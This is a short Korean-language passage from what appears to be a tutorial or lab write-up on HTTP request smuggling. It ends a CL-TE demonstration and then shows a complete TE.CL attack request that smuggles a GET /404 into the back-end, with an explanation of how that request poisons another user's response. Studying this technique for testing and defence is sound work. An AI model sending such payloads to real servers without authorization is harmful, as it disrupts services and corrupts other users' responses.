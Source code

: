 
공격 직후 다른 네트워크 상에서 메인 페이지(/) 접속 요청 시 404 에러가 출력 됩니다.
![CL-TE smuggling](4.png)



### TE.CL 취약점

취약점 확인을 위해 아래 패킷을 서버로 전송합니다.

```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0
```

Front-end 서버에서 chunked 인코딩에 의해 /404 페이지 요청이 Back-end로 전달되고 Content-Length 가 144 이므로 해당 크기 만큼의 데이터가 올 때까지 대기하게 됩니다. 이후 다른 네트워크 상에서 메인 페이지(/) 접속 요청 시 대기 중이던 패킷에 결합되어 404 에러 페이지가 출력 됩니다.
![TE-CL smuggling](5.png)
